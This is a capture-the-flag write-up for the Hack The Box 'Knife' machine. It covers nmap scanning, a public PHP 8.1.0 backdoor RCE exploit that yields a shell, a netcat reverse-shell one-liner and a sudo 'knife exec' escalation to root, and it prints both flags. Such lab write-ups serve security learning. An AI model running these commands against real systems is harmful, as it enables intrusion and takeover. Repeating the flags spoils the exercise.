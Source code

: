 # [Knife]()
Linux, 20 Points, Easy

ip=10.10.10.242

## User solution
The first thing is to do the nmap scan.
```console
┌──(kali㉿kali)-[~/HTB/Knife]
└─$ ip=10.10.10.242

┌──(kali㉿kali)-[~/HTB/Knife]
└─$ ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

┌──(kali㉿kali)-[~/HTB/Knife]
└─$ nmap -sC -sV -p$ports $ip -oA nmap_result
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-26 10:29 EDT
Nmap scan report for 10.10.10.242
Host is up (0.083s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.72 seconds
```
Now lets look at website at port 80. \
From the nmap scan we know that the server uses Apache 2.4.41 and Ubuntu OS. Using Wappalyzer we found it also uses PHP 8.1.0.\

There is a RCE exploit for PHP 8.1.0. Download it from [exploit-db](https://www.exploit-db.com/exploits/49933).

Run the exploit and got the flag
```console
┌──(kali㉿kali)-[~/HTB/Knife]
└─$ python3 exploits/49933.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
Can't acces tty; job crontol turned off.
$ whoami
james

$ pwd
/

$ cd /home/james; ls; cat user*
authorized_keys
hello
hello.rb
user.txt
aec6c92f2b998dc3912f334ac0c69ed5
```
## Root solution
Before procedding lets get a reverse shell at port 5454 with `mkfifo /tmp/f; nc <local-ip> 5454 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` and run `nc -lvnp 5454` before running the command. 

I was unable to do the root part while the machine was active. Later from a help I realized I forgot to check GTFObins.

Coming to the process first we have to see which executables we can run as sudo.
```console
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

```
Search GTFObins for knife you will get a command for shell
```console
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
# cat root/root.txt
b1c946e0dcc0715cb9039799fe824278
```
